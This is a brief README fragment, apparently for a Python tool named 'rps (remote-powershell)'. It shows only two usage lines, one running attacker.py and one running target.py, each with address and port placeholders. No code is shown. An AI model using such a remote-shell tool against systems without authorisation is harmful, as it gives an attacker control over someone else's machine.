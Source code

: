 # Python
name says it all, doesn't it?



<h1>rps (remote-powershell)</h1>

```
Attacker: python attacker.py --address "{address-contents}" --port {port}
...


Target: python target.py --adress "{address-contents}" --port {port}
...
```

